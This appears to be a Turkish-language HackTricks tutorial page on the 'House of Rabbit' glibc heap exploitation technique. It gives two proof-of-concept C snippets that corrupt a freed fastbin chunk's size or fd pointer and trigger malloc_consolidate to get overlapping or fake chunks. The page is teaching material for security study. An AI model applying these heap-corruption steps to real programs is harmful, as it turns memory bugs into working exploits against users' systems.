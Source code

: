 # House of Rabbit

{{#include ../../banners/hacktricks-training.md}}

### Gereksinimler

1. **Hızlı bin fd işaretçisini veya boyutunu değiştirme yeteneği**: Bu, hızlı bin içindeki bir parçanın ileri işaretçisini veya boyutunu değiştirebileceğiniz anlamına gelir.
2. **`malloc_consolidate` tetikleme yeteneği**: Bu, ya büyük bir parça ayırarak ya da üst parçayı birleştirerek yapılabilir; bu, yığın parçalarını birleştirmeye zorlar.

### Hedefler

1. **Üst üste binen parçalar oluşturma**: Bir parçanın diğerinin üstüne gelmesini sağlamak, böylece daha fazla yığın manipülasyonu yapılmasına olanak tanımak.
2. **Sahte parçalar oluşturma**: Yığın işlemleri sırasında sahte bir parçayı meşru bir parça olarak ele alması için ayırıcıyı kandırmak.

## Saldırı Adımları

### POC 1: Hızlı bin parça boyutunu değiştirme

**Amaç**: Hızlı bin parçasının boyutunu manipüle ederek üst üste binen bir parça oluşturmak.

- **Adım 1: Parçaları Ayır**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
İki adet 0x40 baytlık parça ayırıyoruz. Bu parçalar serbest bırakıldıklarında hızlı kutu listesine yerleştirilecektir.

- **Adım 2: Parçaları Serbest Bırak**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
İki parçayı serbest bırakıyoruz ve bunları fastbin listesine ekliyoruz.

- **Adım 3: Parça Boyutunu Değiştir**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
`chunk1`'in boyut meta verisini 0xa1 olarak değiştiriyoruz. Bu, birleştirme sırasında allocator'ı kandırmak için kritik bir adımdır.

- **Adım 4: `malloc_consolidate`'i Tetikle**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Büyük bir parça ayırmak, hızlı bin içindeki küçük parçaları birleştiren `malloc_consolidate` fonksiyonunu tetikler. Manipüle edilmiş `chunk1` boyutu, `chunk2` ile örtüşmesine neden olur.

Konsolidasyondan sonra, `chunk1` `chunk2` ile örtüşür ve daha fazla istismar olanağı sağlar.

### POC 2: `fd` işaretçisini değiştir

**Amaç**: Hızlı bin `fd` işaretçisini manipüle ederek sahte bir parça oluşturmak.

- **Adım 1: Parçaları Ayır**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Açıklama**: Yığın için sahte parça oluşturmak üzere bir küçük ve bir büyük iki parça ayırıyoruz.

- **Adım 2: Sahte parça oluştur**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
`chunk2` içine sahte parça meta verisi yazarak daha küçük parçaları simüle ediyoruz.

- **Adım 3: `chunk1`'i serbest bırak**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Açıklama**: `chunk1`'i serbest bırakıyoruz, hızlı listeye ekliyoruz.

- **Adım 4: `chunk1`'in `fd`'sini Değiştir**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Açıklama**: `chunk1`'in ileri işaretçisini (`fd`) `chunk2` içindeki sahte parçamıza işaret edecek şekilde değiştiriyoruz.

- **Adım 5: `malloc_consolidate`'i tetikle**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Büyük bir parça yeniden tahsis edildiğinde `malloc_consolidate` tetiklenir, bu da sahte parçayı işler.

Sahte parça, hızlı listeye dahil olur ve bu da onu daha fazla istismar için meşru bir parça haline getirir.

### Özet

**House of Rabbit** tekniği, bir hızlı parça boyutunu değiştirerek üst üste binen parçalar oluşturmayı veya sahte parçalar oluşturmak için `fd` işaretçisini manipüle etmeyi içerir. Bu, saldırganların yığında meşru parçalar oluşturmasına olanak tanır ve çeşitli istismar biçimlerini mümkün kılar. Bu adımları anlamak ve uygulamak, yığın istismar becerilerinizi geliştirecektir.

{{#include ../../banners/hacktricks-training.md}}
